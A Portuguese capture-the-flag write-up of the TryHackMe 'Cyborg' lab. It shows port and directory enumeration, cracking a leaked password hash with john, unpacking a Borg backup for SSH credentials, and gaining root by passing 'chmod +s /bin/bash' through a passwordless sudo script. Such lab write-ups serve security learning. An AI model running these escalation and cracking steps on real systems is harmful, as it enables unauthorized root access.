 <h1><b>Segue Writeup da maquina Cyborg do Try Hack Me</h1>

<b>Enumeração das portas com NMAP

```
┌──(xnv㉿kali)-[~]
└─$ nmap -A 10.10.162.202
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-18 01:03 EDT
Nmap scan report for 10.10.162.202 (10.10.162.202)
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
|_  256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.38 seconds
```

<b>Enumeração de arquivos e pastas com o WFUZZ.

```
┌──(xnv㉿kali)-[~]
└─$ wfuzz -c -w /usr/share/dirb/wordlists/common.txt --hc 404,403 -u http://10.10.162.202/FUZZ -t 100

000000001:   200        375 L    968 W      11321 Ch    "http://10.10.162.202/"
000000286:   301        9 L      28 W       314 Ch      "admin"
000001505:   301        9 L      28 W       312 Ch      "etc"
000002020:   200        375 L    968 W      11321 Ch    "index.html"  
```

<b>Depois de verificar os resultados encontrei esse arquivo.
  
```
http://10.10.162.202/etc/squid/passwd
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```

<b>Com o Hash que conseguir, coloquei no arquivo "hash", e quebrei ele com o john
  
![1](https://user-images.githubusercontent.com/90646635/133877733-130af2b9-a08e-4ad1-a092-cc7fc676815e.PNG)

Voltando para a página tem o Download do arquivo, "archive.tar"

![2](https://user-images.githubusercontent.com/90646635/133878577-5a93b701-5fab-4828-9247-f39814d5359a.PNG)

Dentro do arquivo baixado tem um arquivo "Readme", que te leva a documentação da aplicação chamada "borg"

```
┌──(xnv㉿kali)-[~/…/home/field/dev/final_archive]
└─$ cat README      
This is a Borg Backup repository.
See https://borgbackup.readthedocs.io/
```

<b>Então é só instalar a aplicação borg, conforme documentação.

```
┌──(xnv㉿kali)-[~/…/home/field/dev/final_archive]
└─$ sudo apt install borgbackup
```

<b>E seguindo a documentação vamos extrair os arquivos que estão ocultos, ele pedirá uma senha, essa senha conseguimos com o hash anteriormente.
  
```
┌──(xnv㉿kali)-[~/…/cyborg/home/field/dev]
└─$ borg extract final_archive::music_archive
Enter passphrase for key /home/xnv/thm/cyborg/home/field/dev/final_archive:
```

<b>Depois de extrair os arquivos ocultos encontraremos um login e senha, para logarmos via SSH.

![4](https://user-images.githubusercontent.com/90646635/133879118-bccf411d-6729-4e21-9b53-949fb8d2a030.PNG)


<b>E então encontraremos a flag user
  
```
alex@ubuntu:~$ cat user.txt 
flag{*********************************}
```
<b>Dando um sudo -l
  

```
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
  
```
<b> Podemos ver que no arquivo backup.sh podemos executar o sudo sem precisar da senha, então vamos usar ele para conseguir o root.
  
```
alex@ubuntu:~$ sudo /etc/mp3backups/backup.sh -c "chmod +s /bin/bash"
alex@ubuntu:~$ /bin/bash -p
```
<b>E então conseguimos o root.
  
```
bash-4.3# 
```

<b>E então é só dar um cat no arquivo root.txt
  
```
bash-4.3# cat /root/root.txt
flag{***********************************}
```
